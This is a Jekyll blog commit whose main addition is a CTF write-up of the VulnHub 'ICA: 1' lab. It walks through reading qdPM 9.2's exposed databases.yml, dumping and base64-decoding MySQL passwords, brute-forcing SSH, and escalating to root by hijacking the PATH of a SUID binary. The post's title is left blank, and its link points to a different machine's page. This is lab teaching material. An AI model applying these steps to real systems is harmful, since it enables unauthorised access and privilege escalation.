

Before and after one commit to pwnerguy/pwnerguy.github.io, a Jekyll site: the page built from _pages/year-archive.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; a script that is not in the unit is left out; some of the changed lines change nothing that is shown.

Commit message:
Minor changes in the blog

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -19,7 +19,7 @@
 title                    : "pwnerguy's Blog"
 title_separator          : "-"
 name                     : "pwnerguy"
-description              : "Sharing my journey through<br>cybersecurity, ethical hacking,<br>and CTFs."
+description              : "Hacking my way through<br>cybersecurity, pentesting,<br>and CTFs."
 url                      : "https://pwnerguy.github.io" # the base hostname & protocol for your site e.g. "https://mmistakes.github.io"
 baseurl                  : # the subpath of your site, e.g. "/blog"
 repository               : "pwnerguy/pwnerguy.github.io" # GitHub username/repo-name e.g. "mmistakes/minimal-mistakes"
@@ -103,8 +103,8 @@
 author:
   name             : "pwnerguy"
   avatar           : "/assets/images/pwnerguy.png"
-  bio              : "Sharing my journey through<br>cybersecurity, ethical hacking,<br>and CTFs."
-  location         : "Spain"
+  bio              : "Hacking my way through<br>cybersecurity, pentesting,<br>and CTFs."
+  location         :
   email            : "rmp.it@proton.me"
   uri              :
   home             : # null (default), "absolute or relative url to link to author home"
--- /dev/null
+++ b/_posts/2025-10-12-vh-x.md
@@ -0,0 +1,253 @@
+---
+layout: single
+title: VulnHub -
+excerpt:
+date: 2025-10-12
+classes: wide
+header:
+  teaser: /assets/images/vh.png
+  teaser_home_page: true
+categories:
+  - vulnhub
+tags:
+---
+
+# Introduction
+-------------
+This writeup documents the penetration testing of the [**ICA: 1**](https://www.vulnhub.com/entry/infovore-1,496/) machine. This machine has been downloaded from the [**VulnHub**](https://vulnhub.com) platform.
+
+In this case I'll exploit a vulnerable web tool that exposes the credentials of the DB and I'll gain access into the server.
+
+<br>
+# Recon
+------------------
+## Enumeration of exposed services
+----------------
+Firstly, we need to discover the IP of the **ICA** machine. We will use **arp-scan**.
+
+![](/assets/images/vh-ica1/arp_scan.png)
+
+Normally:
+* TTL 64: Linux machine
+* TTL 128: Windows machine.
+We can also use [**whichSystem**](https://github.com/Akronox/WichSystem.py)
+
+In this case, it appears to be a Linux machine.
+
+![](/assets/images/vh-ica1/nmap1.png)
+
+**extractPorts** reads the grepable export file allPorts, shows me the open ports and copy them in the clipboard. Let's perform a deeper scan with the parameter ``-sCV`` over those ports.
+
+![](/assets/images/vh-ica1/nmap2.png)
+
+To figure out the Debian's version codename we need to search in the internet the SSH version followed by '**launchpad**'.
+
+We are facing a **Debian Bullseye**.
+
+![](/assets/images/vh-ica1/codename.png)
+
+## Web enumeration
+------------
+We can't do much with the SSH service since we don't have credentials yet. Now it's time to enumerate the web server running on the port 80:
+
+![](/assets/images/vh-ica1/whatweb.png)
+
+qdPM is a free, web-based project management tool designed primarily for small teams to manage projects, tasks, and customer support. It allows you to organize work, track progress, and manage users and clients through an integrated ticketing system.
+
+![](/assets/images/vh-ica1/web.png)
+
+![](/assets/images/vh-ica1/wappalyzer.png)
+
+<br>
+# Exploitation
+-----------
+## Identification and exploitation of vulnerabilities
+------------
+
+![](/assets/images/vh-ica1/searchsploit.png)
+
+**searchsploit** found 2 exploits for the version 9.2 of qdPM. I'll focus on this project management tool, since we have to discover someting about a project. Let's see the second exploit.
+
+```
+# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
+# Date: 03/08/2021
+# Exploit Author: Leon Trappett (thepcn3rd)
+# Vendor Homepage: https://qdpm.net/
+# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
+# Version: 9.2
+# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4
+
+The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.#
+```
+
+I'll download databases.yml and connect to the DB.
+
+```yml
+all:
+  doctrine:
+    class: sfDoctrineDatabase
+    param:
+      dsn: 'mysql:dbname=qdpm;host=localhost'
+      profiler: false
+      username: qdpmadmin
+      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
+      attributes:
+        quote_identifier: true
+```
+
+![](/assets/images/vh-ica1/mysql.png)
+
+In the table users from the qdpm DB there is nothing.
+
+```sql
+MySQL [staff]> use staff;
+Database changed
+
+MySQL [staff]> show tables;
++-----------------+
+| Tables_in_staff |
++-----------------+
+| department      |
+| login           |
+| user            |
++-----------------+
+3 rows in set (0,002 sec)
+
+MySQL [staff]> select * from user;
++------+---------------+--------+---------------------------+
+| id   | department_id | name   | role                      |
++------+---------------+--------+---------------------------+
+|    1 |             1 | Smith  | Cyber Security Specialist |
+|    2 |             2 | Lucas  | Computer Engineer         |
+|    3 |             1 | Travis | Intelligence Specialist   |
+|    4 |             1 | Dexter | Cyber Security Analyst    |
+|    5 |             2 | Meyer  | Genetic Engineer          |
++------+---------------+--------+---------------------------+
+5 rows in set (0,001 sec)
+
+MySQL [staff]> select * from login;
++------+---------+--------------------------+
+| id   | user_id | password                 |
++------+---------+--------------------------+
+|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
+|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
+|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
+|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
+|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
++------+---------+--------------------------+
+5 rows in set (0,005 sec)
+```
+
+I have created a file named users (with the users of the DB) and other file named passwords.
+
+```bash
+❯ for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee passwords
+suRJAdGwLp8dy3rF
+7ZwV4qtg42cmUXGX
+X7MQkP3W29fewHdC
+DJceVy98W28Y7wLg
+cqNnBWCByS2DuJSy
+```
+
+![](/assets/images/vh-ica1/hydra.png)
+
+We can now access via SSH as travis and dexter with their credentials.
+
+<br>
+# Post-Exploitation
+----------
+
+![](/assets/images/vh-ica1/find.png)
+
+![](/assets/images/vh-ica1/file.png)
+
+It's a compiled linux binary. These are the strings of this binary:
+
+```
+/lib64/ld-linux-x86-64.so.2
+setuid
+socket
+puts
+system
+__cxa_finalize
+setgid
+__libc_start_main
+libc.so.6
+GLIBC_2.2.5
+_ITM_deregisterTMCloneTable
+__gmon_start__
+_ITM_registerTMCloneTable
+u/UH
+[]A\A]A^A_
+cat /root/system.info
+Could not create socket to access to the system.
+All services are disabled. Accessing to the system is allowed only within working hours.
+;*3$"
+GCC: (Debian 10.2.1-6) 10.2.1 20210110
+crtstuff.c
+deregister_tm_clones
+__do_global_dtors_aux
+completed.0
+__do_global_dtors_aux_fini_array_entry
+frame_dummy
+__frame_dummy_init_array_entry
+get_access.c
+__FRAME_END__
+__init_array_end
+_DYNAMIC
+__init_array_start
+__GNU_EH_FRAME_HDR
+_GLOBAL_OFFSET_TABLE_
+__libc_csu_fini
+_ITM_deregisterTMCloneTable
+puts@GLIBC_2.2.5
+_edata
+system@GLIBC_2.2.5
+__libc_start_main@GLIBC_2.2.5
+__data_start
+__gmon_start__
+__dso_handle
+_IO_stdin_used
+__libc_csu_init
+__bss_start
+main
+setgid@GLIBC_2.2.5
+__TMC_END__
+_ITM_registerTMCloneTable
+setuid@GLIBC_2.2.5
+__cxa_finalize@GLIBC_2.2.5
+socket@GLIBC_2.2.5
+.symtab
+.strtab
+.shstrtab
+.interp
+.note.gnu.build-id
+.note.ABI-tag
+.gnu.hash
+.dynsym
+.dynstr
+.gnu.version
+.gnu.version_r
+.rela.dyn
+.rela.plt
+.init
+.plt.got
+.text
+.fini
+.rodata
+.eh_frame_hdr
+.eh_frame
+.init_array
+.fini_array
+.dynamic
+.got.plt
+.data
+.bss
+.comment
+```
+
+We see ``cat /root/system.info``, it's a command that is being executed by root using a relative route, so I can hijack it.
+
+It's simple: create a file named ``cat`` with execution permission that gives the SUID permission to ``/bin/bash``, export the directory where this file is (for example /tmp) to the PATH and execute the file ``/opt/get_access``.
+
+![](/assets/images/vh-ica1/flag.png)
````
Also changed, not shown: _posts/2025-10-10-vh-infovore.md (+0 -1 lines), .obsidian/workspace.json, assets/images/thm.png (added).
